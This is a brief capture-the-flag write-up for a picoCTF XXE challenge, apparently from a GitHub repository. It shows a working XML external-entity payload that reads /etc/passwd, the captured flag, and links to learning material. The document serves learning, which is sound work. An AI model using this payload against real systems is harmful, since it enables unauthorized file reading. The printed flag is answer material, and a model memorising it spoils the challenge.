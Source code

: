 In this lvl we need to perform XXE attack.
First I intetercepted the request using burpsuite.
Then I clicked on details.
I came to know that the site is using xml therfore we can use xxe here.
I injected the following code :

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
<ID>&xxe;</ID>
</data>

This allows us to read the /etc/passwd file.
There I got the flag.

--------------------------------------------
Flag : picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
--------------------------------------------

Reading material : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

Port swigger is very useful to understand the working of the xxe exploitation.

Youtube video for better understanding : https://youtu.be/gjm6VHZa_8s?si=BiFgMTl7ps_oAqXP
